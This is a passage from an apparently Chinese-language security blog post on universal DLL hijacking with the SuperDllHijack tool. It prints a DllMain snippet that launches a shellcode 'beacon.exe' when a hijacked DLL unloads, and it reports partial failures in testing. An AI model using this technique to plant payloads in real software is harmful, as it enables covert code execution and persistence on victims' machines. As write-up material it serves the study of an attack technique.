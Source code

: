 ### **0x3.3 通用 DLL 劫持**

这种方式可以不再需要导出 DLL 的相同功能接口，实现原理其实就是修改 LoadLibrary 的返回值, 一般来说都是劫持 LoadLibraryW(L"mydll.dll");,window 默认都是转换为 unicode, 自己去跟一下也可以发现。

原理大概如下:

> exe —load—> fakedlld.ll —> execute shellcode
> 
> | 执行完返回正确 orgin.dll 地址 |
> 
> ——————————————————————

怎么实现这种效果?

使用这个工具: SuperDllHijack

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        CreateProcess(TEXT("C:\\Users\\xq17\\Desktop\\shellcode\\beacon.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
    }

    return TRUE;
}
```

然后用 vs 加载其中的 example 部分就行了

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4I8uoQZbvxc90Y0kFy2NNst73iclvY7RgZ7KqNiau2zjibneyUa244v3ug/640?wx_fmt=png)

核心关键代码在这里, 这里我们修改成如下:

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4HIEjXVfG7ictXwUbd0CSEibu5lgxvcicZB44CD9dXYfNdvd0da282D5fQ/640?wx_fmt=png)

然后执行的时候, 发现虽然成功 hook 了

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4IOibMoFBplNYIt02Sd4RMOUD5IGXOu1BiabzHfekgNGPh17RMR75XvKQ/640?wx_fmt=png)

但是获取相应的导出函数, 也还是失败的, 而且很奇怪 realease 和 debug 编译的时候, release 版本连 demo 都在 win10 跑不起来。

### **0x3.4 总结**
